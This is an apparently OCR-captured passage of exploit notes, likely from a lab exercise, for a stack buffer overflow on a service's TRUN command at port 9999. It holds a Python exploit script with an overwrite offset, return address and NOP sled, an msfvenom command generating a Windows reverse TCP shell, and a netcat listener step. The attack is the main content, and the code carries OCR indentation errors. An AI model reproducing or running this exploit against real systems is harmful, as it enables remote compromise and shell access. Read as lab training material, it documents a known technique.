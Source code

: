             try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect(('172.16.253.150', 9999))
                s.send(('TRUN /.:/' + shellcode))
                s.close()
                            
                except:
                print "error connecting to server... you fucked somthing up"
                sys.exit()
                
        Get root!
            `msfvenom -p windows/shell_reverse_tcp LHOST=172.16.253.147 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00" `
            -p windows/shell_reverse_tcp = payload target/what shell we want
            LHOST = me  LPORT= me port we have a listner on
            EXITFUNC = makes explooiit more stable
            -f = file type, in this case c
            -a = architecture
            -b = list any bad charaters, `\x00` is null byte and is always bad
            
            run root_baby.py to get root with shell code from msfvenom:
                `root_baby.py`
                #!/usr/bin/python
                import sys, socket
                
                #return_address = 625011af
                #enter the return address in little endian format (backwards)
                for x86
                endian_return = "\xaf\x11\x50\x62" 
                
                #get overflow from:
                #msfvenom -p windows/shell_reverse_tcp LHOST=<my_ip> LPORT=<listner_port> EXITFUNC=thread -f c -a x86 -b "\x00"
                overflow = (
                <msfvenom x86 code>)
                
                #no operations used as padding between JMP and overflow. This
                #ensures that no other unknown commands will run in the 
                #nops area. You might need to make this bigger or smaller to work.
                nops = "\x90" * 32
                
                shellcode = "A" * 2003 + endian_return + nops + overflow 
                
                try:
                    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                    s.connect(('172.16.253.150', 9999))
                    s.send(('TRUN /.:/' + shellcode))
                    s.close()
                                
                    except:
                    print "error connecting to server... you fucked somthing up"
                    sys.exit()
                                        
            set up listener: `nc -nvlp 4444` and run `root_baby.py` and 
            you got root!
            